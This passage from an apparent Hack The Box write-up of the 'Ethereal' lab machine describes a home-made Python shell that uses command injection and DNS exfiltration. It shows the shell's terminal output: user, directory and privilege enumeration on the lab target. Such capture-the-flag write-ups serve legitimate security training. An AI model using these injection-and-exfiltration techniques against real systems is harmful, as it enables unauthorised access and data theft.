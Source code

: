 Now I have a C2 method.

### Shell

I wrote a shell in python that will take advage of this command
injection and DNS exfil to give interaction with the system. I'll detail
that process in a [separate post](/htb-ethereal-shell.md)
(linked here and also at the bottom of the table of contents on the
left). [m0noc](https://www.hackthebox.eu/home/users/profile/4365) made
an excellent and quite thorough [video on DNS
exfil](https://www.youtube.com/watch?v=Egwp5zc5ZIM) that was based on
this box that is also worth watching.

The TL;DR on my shell is that I can use the injection and DNS exfil
discovered above to get a pretty solid (albeit very slow) shell. It
loses white space and any line with a word ending in `..`, and it drops
the character `/`. But it's enough to do some initial enumeration to
find a better access:



    root@kali# ./ethereal_shell.py
    [*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
    [*] Logging in and fetching state information.
    [+] State information received.
    ethereal> whoami
    etherealalan

    ethereal> dir \
    Volume in drive C has no label.
    Volume Serial Number is FAD9-1FD5
    Directory of c:
    07/07/2018 09:57 PM <DIR> Audit
    06/30/2018 10:10 PM <DIR> inetpub
    06/26/2018 05:51 AM <DIR> Program Files
    07/16/2018 08:55 PM <DIR> Program Files (x86)
    07/05/2018 09:38 AM <DIR> Users
    07/01/2018 09:57 PM <DIR> Windows
    0 File(s) 0 bytes
    6 Dir(s) 15,409,475,584 bytes free

    ethereal> whoami /priv
    PRIVILEGES INFORMATION
    ----------------------
    Privilege Name Description State
    ============================= ========================================= ========
    SeChangeNotifyPrivilege Bypass traverse checking Enabled
    SeImpersonatePrivilege Impersonate a client after authentication Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Disabled



## Better Shell as Alan
